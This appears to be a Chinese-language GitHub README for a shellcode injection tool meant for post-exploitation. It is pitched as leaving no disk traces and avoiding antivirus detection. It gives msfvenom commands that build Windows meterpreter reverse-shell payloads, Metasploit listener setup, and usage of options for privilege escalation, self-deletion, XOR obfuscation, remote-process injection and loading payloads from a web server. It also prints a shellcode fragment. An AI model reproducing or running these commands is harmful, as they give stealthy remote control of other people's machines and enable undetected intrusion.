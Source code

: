 # Metasploit 本地ShellCode注入工具

<br>

一款本地`ShellCode`后门注入工具，工具主要用于在后渗透阶段使用，可将后门直接注入到特定进程内存中而不会在磁盘中留下任何痕迹，注入成功后`Metasploit`即可获取控制权，只要对端不关机则权限会一直维持，由于内存注入无对应磁盘文件，所以也不会触发杀软报毒。

首先需要通过`Metasploit`工具生成一个有效载荷，如下是32位与64位载荷生成命令。
```BASH
32位载荷生成
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c

64位载荷生成
[root@lyshark ~]# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置也分为`32`位与`6`4位，使用工具时需要与载荷的位数相对应。
```BASH
32位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit

64位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit
```

<br>

 - 工具参数列表预览
```C
Shell> InjectShellCode32.exe
  ____  _          _ _   ___        _           _
/ ___|| |__   ___| | | |_ _|_ __  (_) ___  ___| |_
\___ \| '_ \ / _ \ | |  | || '_ \ | |/ _ \/ __| __|
 ___) | | | |  __/ | |  | || | | || |  __/ (__| |_
|____/|_| |_|\___|_|_| |___|_| |_|/ |\___|\___|\__|
                                |__/

Usage: ShellCode 远程线程注入器
E-mail: me@lyshark.com

Options:
         --show              显示当前所有可注入进程
         --promote           尝试提升自身进程权限
         --delself           从系统中删除自身痕迹

 Format:
         --Format            将字节数组格式化为一行并打印
         --FormatFile        将字节数组格式化并写出到文件
         --Xor               将文本中压缩后的字节数组进行异或并输出
         --Xchg              将压缩后的字符串转为字节数组格式
         --XorArray          将字节数组加密/解密为字节数组格式

 Inject:
         --InjectSelfShell   注入字符串到自身进程并运行
         --InjectArrayByte   注入字节数组到自身进程并运行
         --FileInjectShell   从文件中读入字符串并注入运行
         --InjectProcShell   注入字符串到远程进程并运行
         --InjectWebShell    从远程加载字符串并注入自身进程

 Encode:
         --EncodeInFile      从文件读入加密字符串并执行反弹
         --EncodePidInFile   注入加密后的字符串到远程进程中
```

<br>

 - 列举出目前系统中支持注入的进程
```C
InjectShellCode32.exe --show

[*] x32 进程PID =>      4        进程名 => System
[*] x32 进程PID =>    124        进程名 => Registry
[*] x32 进程PID =>    588        进程名 => smss.exe
[*] x32 进程PID =>    836        进程名 => csrss.exe
[*] x32 进程PID =>    940        进程名 => wininit.exe
[*] x32 进程PID =>    948        进程名 => csrss.exe
[*] x32 进程PID =>   1012        进程名 => services.exe
```

 - 尝试使用令牌提权
```C
InjectShellCode32.exe --promote

[+] 获取自身Token
[+] 查询进程特权
[*] 已提升为管理员
```

 - 删除自身程序
```C
InjectShellCode32.exe --delself

[*] 自身已清除
```

 - 将攻击载荷格式化为一行纯字符串
```C
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

InjectShellCode32.exe Format --path d://shellcode.txt

fce88f0000006031d289e5648b52308b520c8b52140fb74a268b722831ff31c0ac3c617c022c20c1cf0d01...
```

 - 将攻击载荷格式化为一行并写出到文本
```C
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

InjectShellCode32.exe FormatFile --path d://shellcode.txt --output d://output_shellcode.txt
[+] 已储存 => d://output_shellcode.txt
```

 - 将一行攻击载荷进行异或处理
```C
InjectShellCode32.exe Xor --path d://output_shellcode.txt --passwd lyshark

% &{{%ssssssuspr'q{z&vuw{!vqps{!vqs {!vqrws%!tw"qu{!tqq{pr%%pr s" p urtwst{%s!v"qvuu"ssvp%%'v
```

 - 将一段压缩载荷转换成字节数组
```C
InjectShellCode32.exe Xchg --input d://output_shellcode.txt --output d://array.txt
[+] 字节已转为双字节
[*] 已写出ShellCode列表 => d://array.txt

"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
```





**异或加密/解密字节数组:** 将字节数组整体加密或解密为字节数组，无需在程序代码中转换，使用更方便。
```
C:\Users\admin\Desktop>sc32.exe XorArray --path d://array.txt --passwd lyshark
```

**将攻击载荷注入自身反弹:** 将一段压缩过的shellcode注入到自身进程并反弹权限。
```
C:\Users\admin\Desktop> sc32.exe InjectSelfShell --shellcode fce88f0000006031d2648b52308b520c***
```

**注入字节数组到自身进程:** 由于字节数组无法直接命令行方式传递，所以只能在文件中获取并压缩解码反弹。
```
C:\Users\admin\Desktop> sc32.exe InjectArrayByte --path d://shellcode.txt
[+] 解码地址: 19db64
```

**从文件中读入并注入:** 从文件中读入一段已经压缩过的shellcode并执行反弹。
```
C:\Users\admin\Desktop> sc32.exe FileInjectShell --path d://format.txt
```

**注入攻击载荷到远程进程:** 该功能主要用于将代码注入到远程进程中，此处参数已经规范化。
```
C:\Users\admin\Desktop> sc32.exe InjectProcShell --pid 17948 --shellcode fce88f0000****
```

**从远程加载载荷并注入:** 从远程Web服务器上获取到需要注入的代码，远程服务器保存一行格式字符串即可。
```
C:\Users\admin\Desktop> sc32.exe InjectWebShell --address 127.0.0.1 --payload shellcode.raw
```

**直接运行加密的攻击载荷:** 加密模块可以直接运行被加密过后的shellcode并反弹，注入时需要传递解码密码。
```
C:\Users\admin\Desktop> sc32.exe EncodeInFile --path d://encode.txt --passwd lyshark
```

**加密注入远程进程反弹:** 直接注入加密后的代码到远程进程中，实现方式如上。
```
C:\Users\admin\Desktop> sc32.exe EncodePidInFile --pid 17480 --path d://encode.txt --passwd lyshark
```
